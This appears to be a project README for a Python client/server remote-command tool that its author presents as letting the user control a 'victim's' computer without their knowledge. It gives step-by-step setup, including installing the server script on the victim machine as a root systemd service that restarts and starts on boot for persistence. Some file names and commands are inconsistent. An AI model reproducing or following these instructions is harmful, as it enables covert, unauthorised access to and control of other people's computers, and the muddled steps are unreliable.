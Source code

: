 This repository is a cyber security project of mine, it is not very comprehensive yet it is effective, it allows you to do various operations without the victim knowing. You can create or remove directories, install applications and browse the victim's computer. Only drawback is you have to be in the same wifi with the victim.
You can set this up by following the steps I provided.


## Requirements

To run this project, you will need the following:

-Python 3.x installed on both the server and client machines.

-SQLite3 (included with Python).

-Basic knowledge of using a terminal or command line interface.


## Files Included

client.py: The client script to send commands to the server.

server.py: The server script to receive and execute commands.

createDb.py: A script to create the SQLite database and table.

view_Db.py: A script to view the contents of the database.

command_outputs.db: The SQLite database where command outputs are stored. (you should run the createDb.py on the terminal for this to show up).

 Windows: `python createDb.py` Linux/Mac: `python3 createDb.py`


## Step 1: Edit client.py

In the client.py file, update the IP address to the IP address of the server machine (victim's machine).

`client_socket.connect(('192.168.169.117', 12345)) #Example`


## Step 2: Run createDb.py

Run the create_db.py script on the client machine to create the SQLite database and table.

`python3 create_db.py`

You can delete this and create it again to reset the database.

`rm createDb.py`


## Step 3.1: Setup the Server

On the server machine, create a systemd service to ensure the server script runs on boot.

`sudo nano /etc/systemd/system/server.service`


## 3.2: Add the following content to the file
```
[Unit]

Description=Start Server Script

After=network.target


[Service]

ExecStart=/usr/bin/python3 /path/to/server.py

WorkingDirectory=/path/to/

StandardOutput=inherit

StandardError=inherit

Restart=always

User=root


[Install]

WantedBy=multi-user.target

Replace /path/to/ with the actual path where server.py is located.
```

## 3.3: Reload the systemd daemon and start the service:
```
sudo systemctl daemon-reload

sudo systemctl start server.service

sudo systemctl enable server.service
```

## Step 4: Running the Client

Run the command `python3 client.py` on your terminal while you are on your projects directory 

-> .../Desktop/client.py

Enter the command you want to execute on the server machine. The output will be displayed and stored in the SQLite database.


## Step 5: Reviewing the Database

To view the contents of the database, run the viewDb.py script on the client machine.

`python3 view_db.py`

This will print the stored command outputs.



That's all, you can find more commands for your needs in the text file I added named 'serverServiceCommand.txt' 
